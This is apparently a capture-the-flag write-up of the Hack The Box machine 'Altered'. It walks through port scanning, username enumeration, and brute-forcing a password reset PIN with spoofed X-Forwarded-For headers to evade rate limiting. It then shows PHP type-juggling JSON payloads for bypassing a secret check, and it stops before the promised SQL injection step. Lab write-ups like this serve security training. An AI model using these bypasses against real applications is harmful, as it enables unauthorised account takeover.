`Altered` is a hard-difficulty Linux machine that features a Laravel-based web application with a vulnerable password reset mechanism. By bypassing rate limiting using HTTP headers, an attacker can brute-force the reset PIN. Foothold is achieved by exploiting an endpoint vulnerable to SQL injection, leveraging type juggling to bypass an integrity check. Enumerating the machine reveals an outdated kernel version, which is leveraged to gain a shell as root.

## Enumeration

Full TCP port scan first:

```
┌──(corey㉿kali)-[~/htb/Altered]
└─$ nmap 10.129.227.109 -sS -p- -T4
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-06 05:58 -0500
Nmap scan report for 10.129.227.109
Host is up (0.074s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```



Now let's do aggressive mode on those that are present:

```
┌──(corey㉿kali)-[~/htb/Altered]
└─$ nmap 10.129.227.109 -A -p22,80 -T4
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-06 05:59 -0500
Nmap scan report for 10.129.227.109
Host is up (0.039s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-title: UHC March Finals
|_Requested resource was http://10.129.227.109/login
|_http-server-header: nginx/1.18.0 (Ubuntu)
```



This machine was in the CWES track so we can ignore SSH and go straight for the web app.



We're greeted with a login page that we can attempt some basic logins for like `admin:admin`, `admin:password`, `root:root`, etc.

The first two admin attempts give the error message `Invalid Password.` whereas the root attempt responds with `Invalid Username`, so this would be a username enumeration finding that I'd flag on a real test.



Along with those error messages, there's a `Forgot password?` button that we might be able to exploit to reset the password of the admin user if it has a weak implementation.



It takes us to `/reset` where we can enter a username, let's enter `admin`:



So a pin gets emailed to the user which they have to submit, and based on the prefilled info of the form it's probably 4 digits long.

Let's examine the actual request and response in Burp because it's possible that it was unintentionally leaked in the response:



I couldn't find it in the response, but I've done many password reset PortSwigger labs so let's just try brute-forcing it.

## Brute-forcing Admin Password Reset PIN

Since we're gonna be sending up to 10,000 requests (0000-9999), we'll need to spoof the IP that we're requesting from or else we'll most likely get rate limited. Maybe not since this is an HTB machine, but it's worth practicing anyways for the sake of realism.

First send that `POST /api/resettoken` to Intruder (CTRL+I) and select `Pitchfork attack`:



As the blurb above explains, a `Pitchfork` attack will iterate through each set in parallel, so if we need to test up to 10,000 pins we need at least 10,000 different IPs.

Let's just generate a list of all IPs in the range for 1.2.0.0/16 with this one-liner:

```
┌──(corey㉿kali)-[~/htb/Altered]
└─$ for c in {0..255}; do for d in {0..255}; do echo "1.2.$c.$d"; done; done > ips.txt 
```

Now we need to add a header that indicates the originating IP. WAFs are different so we can attempt a few headers such as the following:

- `X-Forwarded-For`
- `X-Real-IP`
- `X-Client-IP`
- `X-Originating-IP`
- `True-Client-IP`
- `CF-Connecting-IP`
- `Forwarded: for=`

Let's try it first with the `X-Forwarded-For` header and select our two payload positions as seen in the request:

```
POST /api/resettoken HTTP/1.1
Host: 10.129.227.109
Content-Type: application/x-www-form-urlencoded
Cookie: XSRF-TOKEN=eyJpdiI6ImIvTVh4WDN3Nm14VDgwVldXZFNIU2c9PSIsInZhbHVlIjoiR0JLcFVmMVJydTJFWS9Mc1JFekdreld5andqYk9ISlRBRVdrMG85cUYrYVhLdm5zdlZRcUFTNGdyTXJUUWxWU3EvbU1IOUJOQU1KQjN0d2NodW5vOFdTSjUvbjRJZE9rUm1meWtmaVJDUXFsWUxvN05YMlNQZ1VDZDBsVUhxM2kiLCJtYWMiOiJlZGZkNTE5N2ZjY2FhMWQyYWVkOTA2ZWU5NjE5MGJhZTNlYWQwMDg0MDBjNTU4MjU2ZjRlMDdhODYxM2JmMjgzIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6ImRrbURjdUhSRzBYbkZaY1o2eVo2MHc9PSIsInZhbHVlIjoiRzhDbXdLMTRIWU53aWcySnBHbUdXVkdEYkdhRFRwVlpTT3pMbkpYZXIvTHl3cXN0QXpBdUY1ck5XNFg4Z1diMjFyZ1M1MTh0K3oyUi82M2d5YlhUOXZmbXdyV0VWc2x1Nmswa3dJZldCd1FmUGMrOHNkc1BTM2pTZjlvekZERkoiLCJtYWMiOiI2ZDE3ODRmMjg3ZmMzNTI4MDYxYjg4NDExMTBlZDcyNzA3M2M1ZmUwY2RkOTRiODA4MTAzOTU0YjJhMTAyNjBlIiwidGFnIjoiIn0%3D
X-Forwarded-For: §IP§

name=admin&pin=§0000§
```

For the `1 - IP` payload we need to select the ips.txt file that we generated and ensure that "URL-encode these characters" is **unchecked**, otherwise it'll encode the periods in the list and mess things up:



For the `2 - 0000` payload we need to select a Numbers list from 0000-9999, with the `Min integer digits` option set to 4:



Now let's start the attack, and after some time sort for the length and we will find one that differs from the rest:



In this instance I got a successful hit for pin 6341, but if you're doing this lab it'll most certainly be different. If it's the same, go buy a lottery ticket.

Next, right click the Request tab for the successful hit and select `Open response in browser`, then paste that into your browser:



Change the password to whatever you'd like. With that changed, we can successfully login as admin:



## Internal Dashboard

Once authenticated, we see a player list with names and view profile links:



Clicking on one of the profiles, we see the following request and response in Burp:



Interesting, it's a `GET` to `/api/getprofile?id=1&secret=89cb389c73f667c5511ce169033089cb`.

This immediately makes me think of IDOR or SQLi. Since data is being pulled from somewhere to display the player description, SQLi seems more relevant here. Even though there may be an IDOR or AuthZ issue with mismatching profile ID and secret values, how would that really benefit us here?

With SQLi we could potentially get more creds for SSH or even RCE. If this were a Windows machine we could even possibly capture the service account's hash.

Let's do a targeted scan with the secret value selected as our insertion point with Burp Pro, or we can just put the request into Repeater and try a single quote like so:



It was at this point that I noticed a header in the request which I hadn't seen before:

```
X-Requested-With: XMLHttpRequest
```

I did some research and it's a non-standard, client-set header that JavaScript libraries (jQuery's `$.ajax`, old Angular, etc.) automatically attach to AJAX requests. Since we know the framework is Laravel based on the cookie, the common implementation is something like:

```
if ($request->ajax()) {
    // return JSON / do the "API" thing
} else {
    // redirect, render a view, or abort
}
```

Let's strip down the request to barebones WITHOUT the header, id, & secret values and see what happens:



It's just an infinite redirection loop to `/api/getprofile`

Now what happens if we add the header without the id & secret values?



We get a 422 error with JSON in the body asking for the id and secret. Let's try sending a JSON payload with the id and secret now:



It's another way to get the original body, and this allows us control over the type sent which can enable a vulnerability called type juggling.

Basically, PHP will **implicitly convert values of different types** so it can compare them. When a developer uses the **loose equality operator `==`** instead of the **strict `===`**, PHP coerces both sides to a common type *before* comparing:

- `==` → "are these equal *after* PHP mangles the types to match?"
- `===` → "are these the same type **and** the same value?"

> **Note:** The formatting is a little weird here. The loose operator is 2 equal signs and the strict is 3 equal signs if you couldn't tell.

Being able to send the requests as JSON in the body is important because when the query is appended onto the URL like `?id=1&secret=…` it forces the value to be a string. But now that we can send JSON in the body, we can try different values such as:

```
{"id":"1","secret":"89cb389c73f667c5511ce169033089cb"}    ← string (normal)
{"id":"1","secret":true}                                  ← boolean
{"id":"1","secret":0}                                     ← integer
{"id":"1","secret":[]}                                    ← array
```

Let's send the same request but swap out the secret value for `true`:

